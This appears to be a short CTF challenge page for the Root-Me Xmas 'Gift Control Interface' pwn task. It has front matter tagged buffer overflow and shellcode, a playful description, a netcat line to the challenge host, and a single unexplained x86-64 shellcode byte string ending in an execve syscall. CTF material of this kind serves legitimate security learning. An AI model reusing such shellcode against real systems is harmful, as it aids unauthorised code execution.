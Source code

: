 ```yaml
---
layout: Post
format: chall
title: Day 23 - Gift Control Interface
date: 2024-12-23
ctf: Root-Xmas
tags: [Unicorn, Buffer Overflow, Shellcode]
category: [Pwn]
---
```

# Day 23 - Gift Control Interface

<a class="back-link" href="../../">< Go back</a>

## Description

This year, to easily handle people's Christmas lists, the elves teamed up to develop a cutting-edge application: the Gift Control Interface.

Try it out and maybe you'll get a flag from Santa Claus!

Author : Voydstack
<https://deploy.xmas.root-me.org>
nc dyn-01.xmas.root-me.org PORT

all files in [resources/](./resources) were provided.

## Challenge

\x48\x31\xc0\x50\x48\x89\xe2\x50\x48\x89\xe2\x50\x48\x89\xe2\xb0\x3b\x0f\x05
